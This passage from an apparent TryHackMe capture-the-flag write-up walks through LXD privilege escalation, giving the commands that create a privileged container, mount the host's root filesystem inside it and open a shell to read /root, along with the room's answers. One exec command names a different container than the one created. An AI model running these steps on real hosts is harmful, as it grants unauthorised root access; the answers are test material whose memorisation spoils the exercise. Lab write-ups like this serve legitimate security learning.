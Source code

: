 online".

```
No answer needed
```

### #18 List the image installed on the lxd-service, what is the ALIAS of this image?

[LXD cheat sheet for beginners](https://bartsimons.me/lxd-cheat-sheet-for-beginners/)

```
$ lxc image ls
```

```
myalpine
```

### #19 **The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory.** Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.

```
No answer needed
```

### #20 What is the name of the file in the /root directory?

[Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

```
$ lxc init myalpine joker -c security.privileged=true
$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start joker
$ lxc exec ignite /bin/sh
```

```
final.txt
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
